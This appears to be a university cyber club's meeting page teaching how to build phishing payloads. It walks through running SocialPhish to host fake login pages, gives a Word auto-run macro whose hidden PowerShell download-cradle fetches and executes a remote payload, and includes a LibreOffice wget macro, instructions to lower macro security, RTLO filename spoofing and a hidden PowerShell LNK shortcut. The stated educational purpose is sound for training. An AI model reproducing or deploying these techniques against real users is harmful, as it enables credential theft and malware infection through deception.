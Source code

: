 # Making a Phishing Payload
The content shared and discussed in this club meeting is for educational purposes only

I have made a harmless program at <https://umlcyber.club/watcher_1.exe> for you to download and run as part of your macros. It is not malicious, but it is annoying to remove. So don't run it on your main Windows computer!
## Social Phish
UML blocks serveo.net because it is malware. So you will need to use a VPN or the Cyber Range computers.

To run socialphish:
> git clone https://github.com/pvanfas/socialphish.git

> cd socialphish

> chmod +x socialphish.sh

> ./socialphish

When it says "Choose an option", type the number of the login form you want to make.

When it says "Choose a port forwarding option", just press enter.

When it says "Choose a port", just press enter.

Go to the URL it gives you. Fake login page. Pretty sweet!

For a more in-depth guide, view: <https://infosecwriteups.com/phishing-got-easier-with-socialphish-b04dcbab3900>
## Macros
### Windows
You can install microsoft office using your UML email account.

To make a new macro, go to "View" -> "Macros" -> "View Macros" -> "Create" (you need to give it a name first)

When saving your file, go to `Save As` and save it as a `Word Macro-Enabled Document (*.docm)`
```
Sub Auto_Open()
    Dim exec As String
    Dim testvar As String
    exec = "powershell.exe ""IEX ((new-object net.webclient).downloadstring('http://0.0.0.0/payload.txt'))"""
    Shell (exec)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

### Linux
LibreOffice has good security defaults! By default, only signed macros from trusted sources can run. To run your macros, you will have to lower the security level.

To lower the security level, go to "Tools" -> "Options" -> "Security" tab -> "Macro Security" and set it to Medium or Low.

You can get a shell with linux macros, and then do whatever you want. For example:
```
Sub DownloadFile
    Shell("wget https://example.com/file.zip -O /path/to/save/file.zip")
End Sub
```

## RTLO Character
The RTLO character stands for Right-To-Left Override. It is a non-printing Unicode character, represented by the Unicode character code U+202E1. This character is used to write languages that are read in the right-to-left manner, such as Hebrew, Arabic, Aramaic, and Urdu. It takes the input and literally just flips the text the other way round.

The RTLO character can be used to reverse the display of text that follows it. For example, a Windows screensaver executable named March 25 \u202Excod.scr will display as March 25 rcs.docx. Adversaries may abuse the RTLO character as a means of tricking a user into executing what they think is a benign file type.

Get the character here: <https://unicode-explorer.com/c/202E>

## LNK files
Make a shortcut file by right-clicking and selecting "New&rarr;Shortcut"
When asked for the program you would like to use, you can have it run a powershell command like:

>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -Command "[Malicious PowerShell Script Here]"

## Using the .ico files on the windows system
These two folders contain a lot of ico files for you to use
+ Windows/System32/shell32.dll
+ Windows/System32/imageres.dll
## watcher_1.exe malware

## Homographic attacks
IBM logs attempts at squatting google: <https://exchange.xforce.ibmcloud.com/collection/Google-Squatting-Campaign-b69974c86fff1c2b7f6ea9e477144001>